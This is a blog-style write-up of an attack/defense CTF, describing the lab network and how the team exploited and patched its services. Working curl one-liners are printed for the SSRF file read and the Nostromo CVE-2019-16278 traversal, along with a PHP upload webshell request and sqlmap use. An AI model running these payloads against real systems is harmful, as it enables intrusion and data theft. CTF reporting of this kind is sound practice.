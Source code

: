 ```yaml
---
layout: post
title: UYBHYS - Sea Monster Attack & Defense CTF
---
```


Last week-end I teamed up with members from [Aperikube](https://www.aperikube.fr) for an Attack/Defense CTF which took place in Brest - France. In this "small" blog post I will write about this experience, the challenges and our methodology :)

<!--more-->

![Banner]({{ site.baseurl }}/images/SeaMonsterBanner.png "Banner"){: .center-image }

Rules & informations about the CTF are available in the following PDF : [CTF_UYBHYS.pdf]({{ site.baseurl }}/files/CTF_UYBHYS.pdf)

## CTF Architecture

All teams had the same virtual machines to secure and attack.

- bastion.unlock.ctf : 172.16.1.20
- www.unlock.ctf : 172.16.1.10
- plc.unlock.ctf : 192.168.12.10
- win.unlock.ctf : 192.168.0.10
- fw.unlock.ctf (PfSense)

These machines host some services such as Web Servers, RDP etc... We had access to the source code of the binaries and the URL alive.unlock.ctf displayed the status of all teams services. In the following picture you can clearly see Team08 and Team10 didn't patch their RDP.

![Alive]({{ site.baseurl }}/images/SeaMonsterAlive.png "Alive services"){: .center-image }

In the first 30 minutes we could access our machines and secure them without losing any points, then the scoreboard will update every 20 seconds to decrease your point if a service is down, you also loose point when a team is stealing one of your flag. Based on what we had we mapped the services linked to a flag and 2 columns to check if they were patched and/or exploited.

{% highlight sql %}
PORT      STATE    SERVICE       REASON         VERSION                             PATCHED     EXPLOIT
53                               Bastion        bind                                OK          OK       SSRF/zone
25/tcp                           PLC            vplc ESMTP Postfix (Debian/GNU)     OK     
80/tcp    open     http          Web            nginx 1.6.2                         OK          OK       sql    TODO RCE
502/tcp   open     modbus        PLC            Modbus TCP                          OK          OK       Modbus    
3232/tcp  open     http          Web            nostromo 1.9.6                      OK          OK       DirTravRCE        
3389/tcp  filtered ms-wbt-server Win                                                     
4141/tcp  open     oirtgsvc?     Bastion        whoareyou                           OK                   BOF ? 
4242                             Bastion                                            OK              
8080/tcp  open     http          Bastion        Apache httpd 2.4.10 ((Debian))      OK          KO       MySQL ?
9090/tcp  open     http          Web            nginx 1.6.2                         OK          OK       LDAP inj
45454/tcp open     unknown       Bastion        exploit 
{% endhighlight %}  


It was possible to trade some points for hints and insights in the Black Market, however nothing is guaranted: flags and hints might be wrong or misleading. We took the $0 trade, this gave us a list of the teams and their corresponding sea monster : 

{% highlight sql %}
TEAM1-CRABAL
TEAM2-MEDUSA
TEAM3-STARKA
TEAM4-PIKOR
TEAM5-PONIK
TEAM6-BALENOR
TEAM7-KRAKEN
TEAM8-SQUIDO
TEAM9-HYDROL
TEAM10-SHARKY
TEAM11-POULPY
TEAM12-GUMPAL
TEAM12-SNAKUS
TEAM14-MORSOS
TEAM15-RAYMOL
{% endhighlight %}


## win.unlock.ctf

I wasn't paying attention when the organizers told us the account was not `user` as stated in the PDF but in fact `Administrator`. Missing this information, made me try to exploit the machine in order to get an NT AUTORITY SYSTEM shell, I went to the easy path `Eternal Blue`.

![Windows Eternal Blue]({{ site.baseurl }}/images/SeaMonsterWin.png "Windows Eternal Blue"){: .center-image }

### RDP - 3389

However the SMB service was not forwarded by the firewall and we couldn't exploit the service, it seems the intended way was to use `Bluekeep` as the RDP was checked by the bot and the team lose some points until we opened a Port Forward rule.

![Firewall]({{ site.baseurl }}/images/SeaMonsterFirewall.png "Firewall services"){: .center-image }


## plc.unlock.ctf 

### Modbus - 502

This machine was an easy win, we used [plcscan](https://github.com/meeas/plcscan) to scan the Modbus service on port 502, the PLC description contained the flag.

![Modbus]({{ site.baseurl }}/images/SeaMonsterModbusScan.png "Modbus services"){: .center-image }

![PLC]({{ site.baseurl }}/images/SeaMonsterPLC.png "PLC description"){: .center-image }

{% highlight sql %}
team02.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{bda1c2b26927c2ac87e084fc5} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{bda1c2b26927c2ac87e084fc5} 
team03.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{7ec413a0d19bf0a59a95d8874} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{7ec413a0d19bf0a59a95d8874} 
[...]
team14.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{3e710c7179074e1a62be9de88} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{3e710c7179074e1a62be9de88} 
{% endhighlight %}

## bastion.unlock.ctf

### SSRF - Port 8080

The web server on port 8080 allows the user to ping a machine, we runned the `grep` binary on the entire disk to find files containing flags and used the SSRF to display them with `http://team14.ctf:8080/index.php?ip=file://PATH_TO_FILE`.

It appears we could read the file `file:///etc/bind/zones/unlock.ctf.db`, so we scripted the exploitation of this challenge, however this was the flag for the `Port 53`...

{% highlight bash %}
for i in `seq 1 15`; do echo "Team"$i; curl -s http://team0$i.ctf:8080/index.php?ip=file%3A%2F%2F%2Fetc%2Fbind%2Fzones%2Funlock.ctf.db | grep UYB; done
{% endhighlight %}

![Bind]({{ site.baseurl }}/images/SeaMonsterWWWssrfpath.png "Bind"){: .center-image }

We made the mistake to assume a simple filter like `$ip[0] == "1"` would be enough to stop any exploitation on our machine, however we missed the critical point. Another service was available on port 6666, which would display the content of the file using a specificly crafted URL. We saw the exploit in our logs and replayed the URL on the other team to get more flags.

## www.unlock.ctf 

### Nostromo - Port 3232

We used the CVE-2019-16278 to exploit the Nostromo service on the web machine.

{% highlight bash %}
$ for i in `seq 1 15`; do echo -n "Team"$i; curl -s "http://team0$i.ctf:3232//.%0D./.%0D./.%0D./.%0D./var/nostromo/conf/flag.txt" | grep UYB; done

[...]
Team2 UYB{bcf13245517c9fb5158719cec}
Team3 UYB{b454ae20caa9b07ab4e2c3c01}
Team4 UYB{41c0136228d5a7db614f89431}
[...]
{% endhighlight %}

Our patch might have been the worst of all patch history, we made a copy a the current index page with `curl` and then replaced the nostromo service with a `python -m SimpleHTTPServer 3232`. Dirty but efficient !

![Trade]({{ site.baseurl }}/images/SeaMonsterTrade.jpg "Trade"){: .center-image }

### Custom website - Port 80 

First part of the exploitation was to create an account to access the website and find the SQL injection. The exploitation doesn't need to be logged in, the flag was stored as a plaintext password for the administrator. `SQLmap` and simple `for` loop were enough to exploit the vulnerability and dump the users table.

![SQL]({{ site.baseurl }}/images/SeaMonsterSQL.png "SQL"){: .center-image }

The website contains multiple vulnerabilities, once logged as admin we can access the upload page, even though the HTML upload part was commented. 

![UPLOAD]({{ site.baseurl }}/images/SeaMonsterWWWuploadcode.png "upload"){: .center-image }

The PHP backend is doing some checks but it is not enough to prevent the upload of a PHP file in the images directory, we used a payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20Metadata/PHP_exif_system.jpg) and then executed our commands with `http://team12.ctf/images_import/PHP_exif_system.php?c=whoami`. Unfortunately the CTF ended when we got our command exec... (otherwise we might have been able to exploit EternalBlue against the Windows machine and grab the flag located in C:\flag).

Even if you had patched these vulnerabilities in the website, there were two backup folders `site.bak` and `site_save` to remove.

![Backup]({{ site.baseurl }}/images/SeaMonsterWWWtree.png "Backup"){: .center-image }

## Final Thought

The CTF was great, the infrastructure worked flawlessly and the challenge difficulty was balanced enough to let the team understand, patch and exploit them during the 5 hours timeframe. We finished 1st but I would like to thank all the teams for their fair-play and the organisers for the event. Also thank you to the different sponsors ;)

![Scoreboard]({{ site.baseurl }}/images/SeaMonsterScoreboard.jpg "Scoreboard"){: .center-image }
